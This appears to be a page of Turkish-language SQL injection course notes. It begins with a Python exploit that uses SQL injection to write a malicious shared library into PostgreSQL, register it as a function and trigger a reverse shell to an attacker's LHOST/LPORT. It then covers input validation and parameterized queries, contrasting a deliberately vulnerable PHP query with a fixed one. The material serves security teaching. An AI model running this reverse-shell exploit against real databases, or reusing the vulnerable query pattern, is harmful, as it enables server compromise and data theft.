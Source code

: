 ```python

# Upload pg_rev_shell.so to large object
for pageno in range(math.ceil(len(raw)/2048)):
    page = raw[pageno*2048:pageno*2048+2048]
    print(f"[*] Uploading Page: {pageno}, Length: {len(page)}")
    sqli(f"INSERT INTO pg_largeobject (loid, pageno, data) VALUES ({loid}, {pageno}, decode('{page.hex()}','hex'));")

# Write large object to file and run reverse shell
query  = f"SELECT lo_export({loid}, '/tmp/pg_rev_shell.so');"
query += f"SELECT lo_unlink({loid});"
query += "DROP FUNCTION IF EXISTS rev_shell;"
query += "CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;"
query += f"SELECT rev_shell('{LHOST}', {LPORT});"
print(f"[*] Writing pg_rev_shell.so to disk and triggering reverse shell (LHOST: {LHOST}, LPORT: {LPORT})")
sqli(query)
```

# Preventing SQL Injection Vulnerabilities

## Input Validation / Sanitization

SQL injection, geliştiricilerin düzgün bir şekilde sterilize edilmemiş kullanıcı inputu kullanarak dinamik sorgular oluşturması nedeniyle meydana gelir. Siz (bir geliştirici olarak) her zaman kullanıcı inputunu sterilize etmeli ve belirli bir formla (örn. e-posta) eşleşmesi bekleniyorsa doğrulamalısınız. En iyi zihniyet, tüm kullanıcı inputlarını tehlikeliymiş gibi ele almaktır.

## Parameterized Queries

Parametrelendirilmiş sorgular kullanmak SQLi güvenlik açıklarından kaçınmak için çok iyi bir yoldur, çünkü sorguyu ve değişkenleri ayrı ayrı iletirsiniz ve sunucunun kullanıcı input'undan bağımsız olarak neyin kod neyin veri olduğunu anlamasını sağlarsınız.

İşte kullanıcı inputuna sorguda birleştiren savunmasız bir SQL sorgusu örneği.

```php
...
$sql = "SELECT email FROM accounts WHERE username = '" . $_POST['username'] . "'";
$stmt = sqlsrv_query($conn, $sql);
$row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC);
...
sqlsrv_free_stmt($stmt);  
...
```

Aynı sorgu parametrelendirilmiş olsaydı bu şekilde görünürdü. Bu küçük bir değişikliktir, ancak savunmasız ve güvenli kod arasındaki farktır.

```php
$sql = "SELECT email FROM accounts WHERE username = ?";  
$stmt = sqlsrv_query($conn, $sql, array($_POST['username'])); 
$row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC); 
...
sqlsrv_free_stmt($stmt);  
```
